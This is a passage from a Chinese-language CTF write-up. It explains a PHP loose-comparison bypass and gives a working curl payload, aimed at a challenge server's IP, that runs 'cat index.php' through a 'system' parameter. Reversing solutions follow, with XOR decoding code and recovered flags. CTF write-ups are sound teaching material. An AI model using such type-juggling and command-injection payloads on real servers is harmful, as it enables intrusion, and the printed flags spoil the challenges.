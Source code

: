双等于号用弱类型就可以绕过.   
比如：

```php
<?php
$a = "asdsadsad";
$b = 0;
echo $a==$b;
```

这时就会输出1.  
v5,$v3就已经满足了, 只需要将命令作为第三组就可以执行命令, 最后payload：  
`curl "http://212.64.89.186:9992/hhhhhhhhhhhhhhhh_exec.php/hhhhhhhhhhhhhhhh_exec.php?v3=aaaaaaaaaaaaaaaaaaaaa&0=asd&system=cat%20index.php" -d "v2[4294967296]=admin&v2[1]=test"`

得到 flag{PhP\_1S\_Best\_Lang}

Reserve
-------

### 0x01 iOS13

改一下版本号安装到 iPhone 上, 不过, 我没有 iOS 设备啊, 那就....

把整个 ipa 拖入 ida 内,最后发现 `iOS13` 内有 `C1CTF&#123;%s&#125;`, 而 iOS13dyn 内有剩下的 flag

可以看到 0 是参数, 所以 %d 应该用 0 替代. 

### 0x02 Captcha

如果当成 Misc 来做的话可以直接用CE修改, 改成只需要输入 1 个验证码就可以结束

### 0x03 Adjacent

注意反编译后的这一条语句:

```cpp
if (((unsigned __int8)s[i + 1] ^ (unsigned __int8)s[i]) != *(&v5 + i))
```

实际上就是把字符串中相邻两个字节进行异或, 前面的结果进行比较, 我们知道flag开头是 `C1CTF{xxxx}`

就算不知道是 C 开头, 也知道是 `}` 结尾

```cpp
unsigned char flag2[31] = { 0x72,0x72,0x17,0x12,0x3d,0x23,0x68,0x42,0x2d,0x1e,0x25,0x0e,0x0b,0x22,0x70,0x5d,0x1a,0x2b,0x3c,0x2b,0x29,0x13,0x2d,0x66,0x0f,0x62,0x2d,0x2a,0x29,0x13,0x14 };
unsigned char flag[33] = { 'C' };
for (int i = 1; i < 32; i++) {
    flag[i] = flag2[i-1] ^ flag[i - 1];
}
//"C1CTF{X0r_AdjaC3nt_cHar_96TySzi}"	
```

### 0x04 encoding

这道题可以爆破, 爆破的方法就不在此说了. 
